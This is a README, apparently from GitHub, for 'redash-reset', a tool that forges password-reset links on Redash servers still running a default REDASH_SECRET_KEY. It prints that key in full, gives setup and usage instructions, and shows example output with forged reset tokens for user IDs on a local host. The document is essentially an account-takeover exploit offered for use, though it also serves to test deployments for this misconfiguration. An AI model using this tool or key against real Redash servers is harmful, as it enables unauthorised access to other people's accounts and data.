 # redash-reset

This will use a default `REDASH_SECRET_KEY` key of `c292a0a3aa32397cdb050e233733900f` this allows you to reset the password of the user ID but you will need to know the email address assocaited with it.

Setup
---

```
pip install -r requirements.txt
```

Usage
---

```
usage: redash.py [-h] [-s SECRET] -u URL [-p PROXY]

optional arguments:
  -h, --help            show this help message and exit
  -s SECRET, --secret SECRET
                        Weak REDASH_SECRET_KEY
  -u URL, --url URL     URL of host to check will need http or https
  -p PROXY, --proxy PROXY
                        Proxy for debugging
```

Example
---

```
[2021-11-29T15:44:27Z] rwiggins@MBP-3623:/tmp$ python3 test.py -u http://192.168.1.170
Rest Link http://192.168.1.170/reset/IjEi.YaT1sQ.e6w1vMsG-gx0OVT0qV5aH_aI7IA - UserID: 1

http://192.168.1.170/reset/IjIi.YaT1sQ.j67-OQljn2ivQiyw9Y9wa7G6GY0
Failed to Generate Reset Link for 2
```
